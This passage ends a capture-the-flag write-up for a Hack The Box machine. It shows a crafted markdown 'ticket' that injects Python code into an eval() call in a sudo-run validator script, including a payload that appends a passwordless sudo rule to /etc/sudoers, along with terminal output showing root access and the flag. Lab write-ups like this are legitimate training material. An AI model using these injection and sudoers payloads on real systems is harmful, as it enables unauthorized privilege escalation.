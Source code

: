     main()

We write our own file `a.md` to pass the few checks and got our payload inside
the `eval()` statement.

    :::text
    # Skytrain Inc
    ## Ticket to toto
    __Ticket Code:__
    **4__import__('os').system('id')

Once we run this "ticket" we got a code execution (`id`) as root.

    :::text
    development@bountyhunter:~$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
    Please enter the path to the ticket file.
    a.md
    Destination: toto
    uid=0(root) gid=0(root) groups=0(root)
    Invalid ticket.

We know have a few option to get a root shell (who could also just `cat` the root
flag but that's lazy):

* Add a root (id 0) user to `/etc/passwd` with a password of our choice (see [armageddon](/2021/07/htb-armageddon.html))
* Add an ssh key to root
* run a reverse shell
* surcharge our `sudo` permissions

We will do the latest here. Our "ticket" file will be the following:

    :::text
    # Skytrain Inc
    ## Ticket to toto
    __Ticket Code:__
    **4+__import__('os').system('echo \'development    ALL=NOPASSWD: ALL\'>> /etc/sudoers')

We run the `ticketValidator.py` script with the `sudo` permission and get a
`root` shell and the flag.

    :::text
    development@bountyhunter:~$ sudo su
    root@bountyhunter:/home/development# id
    uid=0(root) gid=0(root) groups=0(root)
    root@bountyhunter:/home/development# cd
    root@bountyhunter:~# cat /root/root.txt
    8bc89c35cfcc7dbce1c4f6ea0e1093d5

# Wrapping up

An "easy" machine as long as you think about the PHP filter and running `dirb`
(or `ffuf`) with the PHP extension. Then the root flag is quit easy.

